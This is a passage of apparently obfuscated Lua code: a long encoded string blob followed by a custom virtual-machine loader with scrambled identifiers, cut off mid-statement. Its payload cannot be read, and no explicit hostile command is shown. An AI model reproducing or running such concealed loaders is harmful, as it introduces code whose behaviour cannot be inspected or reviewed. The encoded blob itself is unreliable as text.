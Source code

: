 i=0&1Bi_yDB0!x&Diey1ByP0BD?;sPv&&?ee?_s?siBB0_BD=X?=uy_?DXe=0x16PPXP?e=PBVD9?D0i1D?XsXBxxXeyaB1&?yD&Py%?&Bi=yxX1De=&ay&?eBy=Xx?x-e_1&0e?0xX=?DPM_ex1sBBP1B?=PxB1xes&0y1==DP=BxDps08110i?yBXPDx=t e&&iyy?XBD==e_*&se1yyX??B==_xe1ee0xXy?iPB_=xxs+_111i_P?B1x=sxStxeeePyBsDBs05x&&iey1X&D?=xZ=&?e-yeX1iyP?_Bx9ex01Xe?&=y_?x0e=0s1H?PP1_yx?sB_B1xi1PeB?xysPaB1=e0y-B=D1=B.?&1i=0x1DDe=&Wy&seByyXx?JP1_1&0e?0BX=?xPOB=Dxey0e1Bi&PxBcxes1001?i1P=BDDos=b1xyesyBByDx=B2e&0iyyyXDD==?_)D&e1y0X??B==_ei&ee01XyeXPB_Pxx=B1B11iLP?Bsx=sx{b1essPyBeDBsPhx&BieC1X=D?=1l=&?eg0-X1iyPs_B&yex0BXe??=yX?Dee=0?1n?=P1B&x?PBh?1xiBPeBxxyse>B&=ecy%BsD1=Ug?&1i=yxX1De=&7y&?eBy=XxeL0?_1xZe?0BX=i.P6Bexyey0i1Bi1PxBBxes1r01?iBP=BDDjseH11yi?yBB=Ds=^}e&1iyysXBD==x&xei0eyyXy?B==_xsX_XxteX0x1x_=xPs#0e110&XPixPX_sxy=oi1y1B?DBs=&?s_0y1PeXys=B_X&xe(ye?DyXX=?x=&_1&DXs?s=y_?xBsyRs1O?sP1B_x?sB0=1xi1PeB&xysi-B1yix8z1xD1s0E?&Xi=y?X:ie=&vy&ieByPXx?&=eX1Dee?0XX=?DPv_sx1sy0i1B?PPxB1xes10y1?eXP=BxDTss-11yi?yBB=Dx=b_1&1iyy?XB?B=x_ &e0x10i=ys1_?ixMey01Xy??1iDP=0B10e1s?yP?BBPX_sD1s_0i1=iyDB=Pdx&QieXDiDy1BDDe=ey_&Xe_PPTP?tsP<?&=i0y?=y_=xBe=0xs1ys1D?ixesB0=1PifPeB1=__PDx=W001yi_D1=&)?&Bi=X=iiyPBPDO=1WDy=Xi?.=e_1e10D1?X=?=PC_ex1g_x_ey0_11i1xe==0y1?iByyxyDfseA1&Xi?yBB=ix=sme&1iyy?XBDy=x_UDse1yyX??X==_?xas7X1Xy??PBXXxxs_0e11?yP=&Dx=sx3.x_i1P0B??1^16x&jieyDByD?=BQ=DDe5yeX1D0=?_1&==x0sXe?1=y_?xBsd0x1xPyP1_yx?sP0=1DiNPsB1DByPuB1=ixysBeD&syu=?Di=yxX9?y=1C0&?eB0rXx?L=e_1&ye?0B1yexPh_sx1s_0?1B?=PxX&xes&0y1iiBPyBxid=eb110i?yXB=?2=;Bex&iyyiXBDP=x_D&e=10>X??X==_DxcsX01&y?0PB_Pxxs_0e1&?yP?X=x=sxZ 1=i1P0B?Dx0_bx&riey1ByDi=BC=&eeuyeX1D0=?_B&=Px1xXe?1=yBCxBsB0x11s0P1_yx?sB0=1Di!PeX&xys?:B1Pixy;BeD1syY?&Be_yxXdDe=1_&&?eBy=iPy&XyDs=X_xx?X=?iP:_ex1011Di??=PPB/xes1&_ePJx&c?0PyB_l1&1i?yBB=s=BiDx=^{X1=XB?B=x_ &e0D&De1yDXe?ex_sX01Xy??y1B=xxs_0e1&?yP?BBx==i!S1si1P0B?D1s=Bxx1iey&ByDi=B__&x=c0sX1D0=?_X&=ei0z&e?e=y_ixBeP0x1B?ey1Xix?sX0=1eihPeB1xy=DUB1Pixy^BeD1sy_?&=i=yDX3Dy=1ay&?eB0PXx?4=e_&&ye?0BX=?xPY_exDey0?1B?=yxBcxes1yuy&_y0=xs=XCeB1iBh_&&?PP?B=x0s?iy0DXBD==x0B0xBi+yDPP&_=Xxe&_?&&eV01XD?9xxs&0e11?y1?i1P&B1D11siyPyB?DB=B1x&^iey1X1D?=X{=&xeSyyxiDy=?_BxBex0_Xeix_x_?xXe=0i1;?eP1XlD_sB0y1xiBPeB1xys?o01=iDyGB=D1s0v?&xP_yxXoDe=P+y&ieB0yDy?N=s_1x_e?0BX=i?Pi_exxey0i1B?=PxB:DDs1001?i1P=BDDrse_&1yi?yBBPDx=j8e&1iyy?XB?_=x_<&ee10&X??B==DP=&_y&seX0x1?_=xssF0e110y1e?sPeBe3B1si1y0B?DBs=&isiSx1ii=y=4XD&=X00B0eBP0BeDy=_#e0t&Q?1=y_?111?DsxZPPXP?e=PBnD<xxP_1Xi_?y0P&R?PP?B=x0s?sy_x&Bi=yx1B=B=1ry&?eXy=Xx?q=eX&&ye?0BXP?xPB_e?1si0?1B?=PxBfxys1U1i=iBP=BxDxse)&1yiiyBXZes=92e&1e1y?XXD==e1&&ee1yyX0?B=P_xx ss01Xy??PX_=xxsc+=?=?yP?BBxysxmr1eex!0B?DXs=#s&aiey1By?&=B =&xeByeX&DyPeBx&=ex0dXs?1=y_?xBs=0x1c?eP&_yxesBB=10i{PeB1DBs?k&1=ix0sBeD1syji&Bi=yxXhDe=15y&=eBy=Xx?kP__1&ye?&ie_0eXDD0PBB10?1??=PxBqsP_PxeePZl&JBxDDseW11yys1De:yeBiD?ssiy0BXBD==xxJ==fi&Be_y&1!D0=0_?0&11??PB_=D?Ei0e1&?yPiBBx=sxk#xki1P0B?DXs=#?&dse0&ByDi=B5P&xeBye&1?==?_X&=eD0jXP?1PyBixBeP0x11?eP1_yx?=s0=1xi9PsB1xys?KB1=ixy}BeD1syF?&Xe1yxXRDe=e1y&?eBy=Xs?f=s_1&ye?0xD_?xP _exiey0i1B?=PeB*xss10y1?iBP=BxeBseW&1yiiyBBPDx=1X0&1iyy?XiD==D_c&ee?yyXi?B=P_xx4ee01D5??PX_=xDsl0s11?yyiBBx=sx#_1ei1PyB?DBs=}x");local n=y.woAYQwyd;y.QMVvoCRB(function()y.MXLVHVww()n=n+y._zBLkmfr end)local function e(d,e)if e then return n end;n=d+n;end local d,n,_=r(y.woAYQwyd,r,e,h,y.uOBMOAUO);local function s()local n,d=y.uOBMOAUO(h,e(y._zBLkmfr,y.FkDygSpP),e(y.COmmlZpi,y.qYyRtTiy)+y.xrUXdqGe);e(y.xrUXdqGe);return(d*y.XYomeqfI)+n;end;local c=true;local c=y.woAYQwyd local function u()local l=n();local e=n();local t=y._zBLkmfr;local l=(d(e,y._zBLkmfr,y.fSTwCZre)*(y.xrUXdqGe^y.TpTrvCZs))+l;local n=d(e,y.sOJDvOXJ,y.nPXPeDna);local e=((-y._zBLkmfr)^d(e,y.TpTrvCZs));if(n==y.woAYQwyd)then if(l==c)then return e*y.woAYQwyd;else n=y._zBLkmfr;t=y.woAYQwyd;end;elseif(n==y.EySGzqOm)then return(l==y.woAYQwyd)and(e*(y._zBLkmfr/y.woAYQwyd))or(e*(y.woAYQwyd/y.woAYQwyd));end;return y.ipyLDgfP(e,n-y.OeQVWXfz)*(t+(l/(y.xrUXdqGe^y.kSOhBLDe)));end;local b=n;local function p(n)local d;if(not n)then n=b();if(n==y.woAYQwyd)then return'';end;end;d=y.XhtJBBPV(h,e(y._zBLkmfr,y.FkDygSpP),e(y.COmmlZpi,y.qYyRtTiy)+n-y._zBLkmfr);e(n)local e=""for n=(y._zBLkmfr+c),#d do e=e..y.XhtJBBPV(d,n,n)end return e;end;local b=#y.KDKMSSSY(a('\49.\48'))~=y._zBLkmfr local e=n;local function de(...)return{...},y.BYimJzvu('#',...)end local function ne()local h={};local a={};local e={};local c={a,h,nil,e};local e=n()local r={}for l=y._zBLkmfr,e do local d=_();local n;if(d==y.xrUXdqGe)then n=(_()~=#{});elseif(d==y.FkDygSpP)then local e=u();if b and y.elGbOtaT(y.KDKMSSSY(e),'.(\48+)$')then e=y.SsUrVowl(e);end n=e;elseif(d==y.woAYQwyd)then n=p();end;r[l]=n;end;c[y.FkDygSpP]=_();for h=y._zBLkmfr,n()do local e=_();if(d(e,y._zBLkmfr,y._zBLkmfr)==y.woAYQwyd)then local o=d(e,y.xrUXdqGe,y.FkDygSpP);local _=d(e,y.RsFwgkBs,y.qYyRtTiy);local e={s(),s(),nil,nil};if(o==y.woAYQwyd)then e[t]=s();e[f]=s();elseif(o==#{y._zBLkmfr})then e[t]=n();elseif(o==k[y.xrUXdqGe])then e[t]=n()-(y.xrUXdqGe^y.rsiMvnMb)elseif(o==k[y.FkDygSpP])then e[t]=n()-(y.xrUXdqGe^y.rsiMvnMb)e[f]=s();end;if(d(_,y._zBLkmfr,y._zBLkmfr)==y._zBLkmfr)then e[l]=r[e[l]]end if(d(_,y.xrUXdqGe,y.xrUXdqGe)==y._zBLkmfr)then e[t]=r[e[t]]end if(d(_,y.FkDygSpP,y.FkDygSpP)==y._zBLkmfr)then e[f]=r[e[f]]end a[h]=e;end end;for e=y._zBLkmfr,n()do h[e-(#{y._zBLkmfr})]=ne();end;return c;end;local function ee(d,e,n)local l=e;local l=n;return a(y.elGbOtaT(y.elGbOtaT(({y.QMVvoCRB(d)})[y.xrUXdqGe],e),n))end local function k(g,h,_)local function ne(...)local s,u,p,ne,m,n,a,ee,j,b,c,d;local e=y.woAYQwyd;while-y._zBLkmfr<e do if y.FkDygSpP<=e then if y.COmmlZpi>e then if e>y.woAYQwyd then for n=y.WHnTJsSL,y.hmqkhngw do if e<y.RsFwgkBs then ee={};j={...};break;end;b=y.BYimJzvu('#',...)-y._zBLkmfr;c={};break;end;else b=y.BYimJzvu('#',...)-y._zBLkmfr;c={};end else if e~=y.qYyRtTiy then d=r(y.RfPxuycu);else e=-y.xrUXdqGe;end end else if e>y.woAYQwyd then if